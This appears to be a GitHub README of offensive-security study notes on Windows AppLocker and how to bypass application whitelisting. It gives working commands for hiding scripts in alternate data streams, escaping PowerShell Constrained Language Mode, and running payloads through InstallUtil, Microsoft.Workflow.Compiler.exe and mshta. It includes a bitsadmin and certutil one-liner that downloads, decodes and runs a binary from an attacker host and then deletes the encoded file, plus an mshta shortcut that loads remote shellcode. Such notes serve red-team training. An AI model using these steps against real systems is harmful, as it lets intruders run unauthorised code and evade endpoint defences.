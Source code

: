 ## Application Whitelisting Theory
 Application whitelisting software uses a custom driver to register a callback function through this PsSetCreateProcessNotifyRoutineEx API. The callback is invoked every time a new process is created and detemine whether or not an application is whitelisted. Microsoft has multiple native application whitelisting soultions.  AppLocker was introduced in Win7 and avaiable in Win10.
 
 AppLocker includes kernel-mode driver APPID.SYS and the APPIDSVC user-mode service. APPIDSVC manages the whitelisting ruleset and identifies applications when they are run based on the callback notifications from APPID.SYS.
 
 AppLocker has 3 rule categories:
 - 1.Based on FilePath
 - 2.Based on file hash(SHA256)
 - 3.Based on digital signature

 You can access AppLocker in command prompt -> gpedit.msc(GPO configuration manager)->Local Computer Policy -> Computer
Configuration -> Windows Settings -> Security Settings -> Application Control Policies->AppLocker. There will be 4 rule propertites for 4 separate file types
- 1 .exe executable files
- 2 .msi Windows Installer files
- 3 .powershell , jscript, VB, .cmd and .bat native script files
- 4 Packaged Apps from Microsoft App Store
 
 Group Policy, AppLocker violation can be review in Windows event log. eventvwr->Applications and Services Logs -> Microsoft -> Windows -> AppLocker
 
 ## Basic Bypasses
- 1.Check permission for default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows
- 2.Identify writable floder by a user using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk). -u supress error, -w writable directories, -s recurese search.
```
C:\users\mst>accesschk.exe "mst" C:\Windows -wus
```
icacls can tell is a folder path is executable 
```
C:\users\mst>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
```
- 3.The default ruleset doesn’t protect against loading arbitrary DLLs. If we were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain
arbitrary code execution.
- 4.Alternate Date Steams is a binary file attribute that contains metadata. We can append binary data if additional streams to the original file. If we can find a file that a current user can write and execute. The below code append test.js to a log file. And we can execute it.
```
C:\Users\mst>type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\mst>wscript "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
- 5.Third Party Execution. If a third-party scripting engine like Python or Perl is installed, we could use it to very easily bypass application whitelisting.
```
C:\Users\mst>python test.py
```
## Bypass AppLocker with Powershell
Powershell Language Mode: 
- 1.FullLanguage, allows all cmdlets and the entire .NET framework as well as C# code execution.
- 2.RestrictedLanguage, allowing default cmdlets but heavily restricting much else
- 3.NoLanguage disallows all script text

ConstrainedLanguage mode (CLM) with PowerShell version 3.0, allow scripts that are located in whitelisted locations or otherwise comply with a whitelisting rule can execute with full functionality. The most significant limiation excludes calls to the .NET framework, execution of C# code and reflection.

```
PS C:\Users\mst> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
#### Bypass Constrained language mode(CLM) with custom runsapces
Powershell call **System.Management.Automation.dll** to create runspace. This measns, we can write c# [powershellrunnerSpace.cs](/06ApplicationWhitelistingBypass/powershellrunnerSpace.cs) to creates a custom PowerShell runsapce and executes our script inside it. 

The above bypass the powershell execution, but if the AppBlocker pervent custom c# execution, our TTPs will not work. We can leverage native Windows application **InstallUtil**.
This command allows us to install and uninstall server resources by executing the installer components in a specified assembly. We are going to user uninstall method because install method reuqired admin privileges.

We can write [installer.cs](/06ApplicationWhitelistingBypass/Installer.cs) script and compile to our bypass.exe. Once compiled, we can use native windows commands to transfer our file from attack machine to target machine and exuecte it with InstallUtil command.

First, we can encode our exe on our attack machine, host the encoded file

```
C:\Users\mst>certutil -encode C:\Users\mst\Bypass.exe file.txt
```

Second trafer the file to target, decode and execute, and remove encoded file
```
C:\Users\target>bitsadmin /Transfer myJob http://yourip/file.txt C:\users\target\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\target\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= LogToConsole=false /U C:\users\target\Bypass.exe
```
Now we have a bypass method, we will update our Installer.cs to [InsallerShell.cs](/06ApplicationWhitelistingBypass/InstallerShell.cs) which use [Invoke-ReflectivePEInjection PowerShell](/03ProcessInjectionMigration/Invoke-ReflectivePEInjection.ps1) to inject a dll into explorer.exe

## Bypass AppLocker with C# via whitelisted application
The ultimate goal is to execute arbitrary C# code via a whitelisted application. It means target application must either accept a pre-compiled executable as an argument and load it into memory or compile it itself. The application must load unsigned managed code into memory. This is typically done through APIs like Load,457 LoadFile458 or LoadFrom.

- 1.We must reverse enginner assemblies which reside in whitelisted locations in search of the code segments that either load precompiled managed code or use source code
which is compiled as part of the processing.
- 2.We will use [dnSpy](https://github.com/dnSpy/dnSpy.git) to reverse engineering System.Workflow.ComponentModel.dll located in C:\Windows\Microsoft.NET\Framework64\v4.0.30319
- 3.We will follow security researcher Matt Graeber's [rbitrary, Unsigned Code Execution Vector in Microsoft.Workflow.Compiler.exe](https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb) blog for reverse engineering.
- 4.In summary, we must craft a file containing C# [Compilerbypass.cs](/06ApplicationWhitelistingBypass/Compilerbypass.cs) code, which implements a class that inherits from the Activity class and has a constructor. The file path must be inserted into the XML document along with compiler parameters organized in a serialized format using [Convertoxml.ps1](/06ApplicationWhitelistingBypass/Convertoxml.ps1) script. 
- 5.run the executable with the two input arguments, the second argument can be anything, the first argument is the output from Convertoxml.ps1 script

```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```
## Bypass AppLocker with JScript

Microsoft HTML Applications (MSHTA) excute .hta files with native mshta.exe. Since mshta.exe is located in C:\Windows\System32 and is a signed Microsoft application, it is
commonly whitelisted. We can execute our Jscript code with mshta.exe instead of wscript.exe to bypass application whitelisting. This is an [example Jscript code](/06ApplicationWhitelistingBypass/hiddentJscript.hta) embedded inside of HTA file.

We can create a short-cut to execute our hta script too. In user Desktop -> New -> Shorcut -> ```C:\Windows\System32\mshta.exe http://ip/youshellcode.hta```
